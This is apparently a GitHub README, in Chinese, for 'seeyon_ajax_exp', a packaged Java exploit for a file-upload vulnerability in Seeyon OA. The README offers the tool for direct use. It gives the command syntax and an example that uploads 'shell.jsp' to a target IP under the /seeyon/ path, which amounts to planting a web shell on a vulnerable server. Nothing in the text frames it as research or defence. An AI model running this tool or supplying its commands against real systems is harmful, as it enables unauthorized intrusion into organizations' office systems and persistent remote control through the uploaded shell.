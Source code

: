 # seeyon_ajax_exp
致远OA文件上传漏洞利用脚本
脚本已经打包好，没有任何防护，可直接查看源码，不存在后门。

使用方法：java -jar seeyon_exp.jar 目标地址 上传文件名字 上传文件绝对路径
例:      java -jar seeyon_exp.jar 10.10.10.10:8080 shell.jsp C:\Users\nex1less\Desktop\222.txt
默认路径为:ip + /seeyon/ + 文件名
